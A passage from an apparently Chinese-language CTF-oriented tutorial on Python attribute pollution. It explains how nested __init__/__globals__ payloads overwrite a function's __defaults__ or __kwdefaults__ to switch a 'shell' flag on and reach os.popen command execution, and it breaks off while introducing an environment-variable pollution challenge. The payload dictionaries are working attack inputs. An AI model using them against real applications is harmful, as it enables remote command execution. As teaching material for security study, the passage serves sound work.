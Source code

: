 ```python
"\_\_init\_\_":{
"\_\_globals\_\_":{
"evil":{
"\_\_defaults\_\_":{
True,
}
}
}
}
}
```
其实也就是我们如果去获取evil函数的defaluts属性的时候就只能获取到位置或关键字参数，所以这里的defaults默认指向的就是shell这个参数，所以就可以进行污染
### \\_\\_kwdefaluts\\_\\_
`\_\_kwdefaults\_\_`以字典的形式按从左到右的顺序收录了函数键值形参的默认值，从代码上来看，则是如下的效果：
```python
def func\_a(var\_1, var\_2 =2, var\_3 = 3):
pass
def func\_b(var\_1, /, var\_2 =2, var\_3 = 3):
pass
def func\_c(var\_1, var\_2 =2, \*, var\_3 = 3):
pass
def func\_d(var\_1, /, var\_2 =2, \*, var\_3 = 3):
pass
print(func\_a.\_\_kwdefaults\_\_)
#None
print(func\_b.\_\_kwdefaults\_\_)
#None
print(func\_c.\_\_kwdefaults\_\_)
#{'var\_3': 3}
print(func\_d.\_\_kwdefaults\_\_)
#{'var\_3': 3}
```
可以看到他仅获取了仅关键字参数，并且返回是以字典的形式返回的。
所以同样的
```python
def evil(arg\_1 ,\*,shell = False):
if not shell:
print(arg\_1)
else:
print(\_\_import\_\_("os").popen(arg\_1).read())
evil\_payload = {
"\_\_init\_\_" : {
"\_\_globals\_\_" : {
"evilFunc" : {
"\_\_kwdefaults\_\_" : {
"shell" : True
}
}
}
}
}
```
这样子就可以进行污染了。
特定值污染
-----
### 环境变量污染
在这几天的i春秋的比赛当中出了这么一个赛题
```php
&lt;?php
highlight\_file(\_\_FILE\_\_);
error\_reporting(E\_ALL);
ini\_set('display\_errors', 1);
```
